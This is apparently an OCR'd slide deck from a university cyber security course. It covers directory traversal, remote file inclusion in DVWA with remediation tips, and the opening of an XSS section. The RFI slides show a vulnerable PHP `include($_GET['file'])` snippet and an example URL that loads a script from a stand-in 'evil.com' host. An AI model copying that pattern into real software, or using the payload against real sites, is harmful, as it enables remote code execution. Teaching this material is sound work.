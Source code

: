 
### Directory Traversal

- Directory traversal (also known as file path traversal) is a web
    security vulnerability that allows an attacker to read arbitrary
    files on the server that is running an application.


### File Inclusion Vulnerabilities in DVWA


### Remote File Inclusion

- Remote File Inclusion (RFI) occurs when the web application
    references an external file and executes it.
- These remote files are usually obtained in the form of an
    HTTP or FTP URI as a user-supplied parameter to the web
    application.


### Remote File Inclusion

$file=$_GET['file']

include($file);

[http://www.test.com/index.php?file=www.evil.com/mal.php](http://www.test.com/index.php?file=www.evil.com/mal.php)


### Remediation

- Proper input validation and sanitization
- Regularly scan applications for potential vulnerabilities.
- Blacklist approach: identifying and blocking publicly
    known attackers and malicious URLs, as well as those
    that have already tried to infiltrate your site or server.
- Whitelist approach: Creating a source of valid and
    acceptable file types and text
- Enable code reviewing for identifying vulnerabilities in
    the code


`

## XSS

```
Meena Lakshmi
Centre for Cyber Security
Amrita Vishwa Vidyapeetham
```

### Cross Site Scripting

- Cross-site Scripting (XSS) is a client-side code injection attack.
- The aim of the attack is to execute malicious scripts in a web
    browser of the victim by including malicious code in a web
    application.
- The injection points for cross site scripting attacks are input
    fields like comment boxes, forums, message boards etc
